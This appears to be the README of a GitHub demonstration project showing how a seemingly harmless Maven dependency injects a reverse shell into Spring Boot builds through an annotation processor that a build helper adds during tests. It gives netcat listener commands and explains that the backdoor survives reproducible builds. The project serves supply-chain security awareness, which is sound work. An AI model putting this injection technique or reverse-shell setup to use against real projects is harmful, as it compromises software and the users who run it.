 # malicious-dependencies

Slightly malicious dependency ([analyzer/spring-build-analyzer](analyzer)) and a demonstration project ([demo](demo)). This project is intended to highlight the issues of including untrusted dependencies in your builds.

## demonstration

**The project requires Maven and Java 17.**

First build and install (locally) the `spring-build-analyzer` by running:

**DO NOT** shorten the following to `mvn clean install` as things may not work.

```bash
cd analyzer
mvn clean
mvn install
cd ..
```

Next, in a different terminal, open netcat to listen on port 9999:

```bash
nc -l -p 9999
```

The `demo` application is a completely separate project that uses the `spring-build-analyzer` JAR. Compile and run the demo application:

```bash
cd demo
mvn package -DskipTests=true
java -jar ./target/demo-0.0.1-SNAPSHOT.jar
```

In a third terminal, validate that the demo application is working as expected:

```bash
curl localhost:8080
```

You should receive back `Greetings from Spring Boot!`. Very exciting, isn't it?

Last, return to the tab with the netcat listener and the reverse shell should have connected; you can test by running `whoami`:

```bash
$ nc -l -p 9999
whoami
jeremy
```

## Explanation

The `spring-build-analyzer` uses an annotation processor to inject a reverse shell into any spring-boot application that is compiled while the `spring-build-analyzer` is on the compile-time classpath. If you look at the `demo` project you will see that the `spring-build-analyzer` is just a standard dependency:

```xml
<dependency>
   <groupId>io.github.jeremylong.spring.analyzer</groupId>
   <artifactId>spring-build-analyzer</artifactId>
   <version>0.0.1-SNAPSHOT</version>
   <scope>compile</scope>
</dependency>
```

While the above is demonstrating the problem using a standard dependency and annotation processing - this could have been a build plugin, a test dependency, a transitive dependency, etc. Anything running during the build can modify the build output. This type of attack does not have to rely on annotation processing.

If you look at the source code for the `spring-build-analyzer` - you will not see the annotation processor that injects the malicious code. This is actually injected by the `build-helper` project during the test execution. This is demoing yet another way to inject code.

The injected code starts a benign reverse shell as it only connects back to localhost on port 9999. This is just a demonstration of what can go wrong at build time. The possibilities are limitless as there are so many different ways to subvert applications and inject backdoors.


## Reproducible Builds

The `demo` project is set up to create re-producible builds. This is useful for understanding that if the build has been compromised by including a malicious dependency or plugin - it doesn't matter where you build the project it is **Reproducibly Compromised**.

```bash
$ shasum -a 256 target/demo-0.0.1-SNAPSHOT.jar
6a4c421550323dd63431753a46f08c80fbf39b744ac173d637bdcb090f176664  target/demo-0.0.1-SNAPSHOT.jar

$ unzip -v target/demo-0.0.1-SNAPSHOT.jar
...
```

## Debugging

Did the above walk through not work? There might be a few reasons:

1. `curl localhost:8080` didn't return `Greetings from Spring Boot!`: 

   - Something is already running on port 8080. When the demo app is not running - ensure that nothing is running on port 8080.

2. No connection was made back to `nc -l -p 9999`.
   - Use alternative options to start the reverse shell: `nc -lp 9999`, `nc -nvlp 9999`
   - Ensure nothing is running on port `9999`. Alternatively, update the port in the [CtxtListener source](https://github.com/jeremylong/malicious-dependencies/blob/61d6b23de532f5236cd9dfd34d473d1f198f70a3/analyzer/build-helper/src/test/java/io/github/jeremylong/spring/build/analyzer/SensorDrop.java#L31-L32) and rerun the above steps.
   - From the root of the project, after building the demo app validate that the `CtxtListener.class` exists: `ls demo/target/classes/io/github/jeremylong/spring/analyzer/demo/CtxtListener.class`. If the class does not exist, consider adding debugging statements [here](https://github.com/jeremylong/malicious-dependencies/blob/61d6b23de532f5236cd9dfd34d473d1f198f70a3/analyzer/build-helper/src/test/java/io/github/jeremylong/spring/build/analyzer/SensorDrop.java#L82) and re-installing the `spring-build-analyzer` and rebuilding the demo application.
   - If the `CtxtListener.class` does exist, uncomment the system out statements [here](https://github.com/jeremylong/malicious-dependencies/blob/61d6b23de532f5236cd9dfd34d473d1f198f70a3/analyzer/build-helper/src/test/java/io/github/jeremylong/spring/build/analyzer/SensorDrop.java#L63-L67) and re-install the `spring-build-analyzer`, rebuild the demo application, start netcat, and then run the demo app. The added debugging output may show what is going wrong on your system.


